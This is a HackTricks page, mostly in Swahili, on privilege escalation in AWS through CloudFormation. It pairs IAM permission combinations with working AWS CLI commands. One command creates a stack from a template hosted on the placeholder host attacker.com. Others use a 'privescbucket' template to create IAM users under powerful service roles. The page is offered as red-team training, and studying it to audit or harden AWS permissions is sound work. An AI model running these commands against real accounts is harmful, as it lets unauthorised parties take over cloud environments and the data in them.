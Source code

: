 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Kwa maelezo zaidi kuhusu cloudformation angalia:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Mshambuliaji mwenye ruhusa hizi **anaweza kuongeza mamlaka** kwa kutunga **CloudFormation stack** yenye kiolezo maalum, kilichohifadhiwa kwenye seva yao, ili **kutekeleza vitendo chini ya ruhusa za jukumu lililobainishwa:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Katika ukurasa ufuatao una mfano wa **kuvamia** na ruhusa ya ziada **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Athari Zinazoweza Kutokea:** Privesc kwa huduma ya cloudformation iliyotajwa.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Katika kesi hii unaweza **kutitumia stack ya cloudformation iliyopo** kuisasaisha na kupandisha ruhusa kama ilivyo katika hali ya awali:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` ruhusa inaweza kutumika **kujipewe ruhusa ya `UpdateStack`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa huduma ya cloudformation iliyotajwa.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ikiwa una ruhusa hii lakini **hakuna `iam:PassRole`** bado unaweza **kusaidia stacks** zilizotumika na kutumia **IAM Roles walizo tayari wameambatanisha**. Angalia sehemu ya awali kwa mfano wa exploit (usionyeshe jukumu lolote katika sasisho).

The `cloudformation:SetStackPolicy` ruhusa inaweza kutumika **kujipewe ruhusa ya `UpdateStack`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa huduma ya cloudformation iliyotajwa tayari.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Mshambuliaji mwenye ruhusa za **kupitisha jukumu na kuunda & kutekeleza ChangeSet** anaweza **kuunda/sasisha stack mpya ya cloudformation kutumia huduma za cloudformation** kama ilivyo kwa CreateStack au UpdateStack.

Exploit ifuatayo ni **tofauti ya**[ **CreateStack moja**](./#iam-passrole-cloudformation-createstack) ikitumia **ruhusa za ChangeSet** kuunda stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` permission can be used to **kujipa ruhusa za `ChangeSet`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa majukumu ya huduma ya cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Hii ni kama njia ya awali bila kupitisha **majukumu ya IAM**, hivyo unaweza tu **kutumia yale yaliyounganishwa tayari**, badilisha tu parameter:
```
--change-set-type UPDATE
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya cloudformation ambayo tayari imeunganishwa.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Mshambuliaji anaweza kutumia ruhusa hizi kuunda/update StackSets ili kutumia majukumu ya cloudformation yasiyo na mipaka.

**Madhara Yanayoweza Kutokea:** Privesc kwa majukumu ya huduma ya cloudformation.

### `cloudformation:UpdateStackSet`

Mshambuliaji anaweza kutumia ruhusa hii bila ruhusa ya passRole kuupdate StackSets ili kutumia majukumu ya cloudformation yaliyounganishwa.

**Madhara Yanayoweza Kutokea:** Privesc kwa majukumu ya cloudformation yaliyounganishwa.

## Marejeleo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
